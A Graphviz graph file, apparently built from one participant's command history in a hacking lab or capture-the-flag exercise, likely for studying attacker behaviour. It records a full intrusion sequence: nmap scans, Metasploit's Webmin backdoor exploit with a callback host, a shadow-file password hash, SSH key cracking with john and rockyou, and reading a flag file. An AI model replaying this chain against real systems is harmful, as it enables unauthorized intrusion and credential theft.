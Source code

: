 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="nmap -A -p 1-65536 A0 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 M0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 M0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="options U"]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 M6 "]
	10 [label="ip a U"]
	11 [label="set LHOST 10.1.135.83 M6 "]
	12 [label="nmap -A 10.1.17.4 A0 A1 "]
	13 [label="vim key U"]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run M8 "]
	22 [label="sessions -l U"]
	23 [label="sessions -h U"]
	24 [label="sessions -u 2 U"]
	25 [label="sessions -l U"]
	26 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	27 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	28 [label="sessions -i 3 U"]
	29 [label="run M8 "]
	30 [label="sessions -l U"]
	31 [label="sessions -U 4 U"]
	32 [label="sessions -u 4 U"]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 M16 "]
	40 [label="chmod 600 key M15 "]
	41 [label="ssh -i key eve@10.1.17.4 M16 "]
	42 [label="ssh -i key eve@10.1.17.4 M16 "]
	43 [label="ls A10 "]
	44 [label="cd top-secret/ U"]
	45 [label="ls A10 "]
	46 [label="cat flag.txt M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
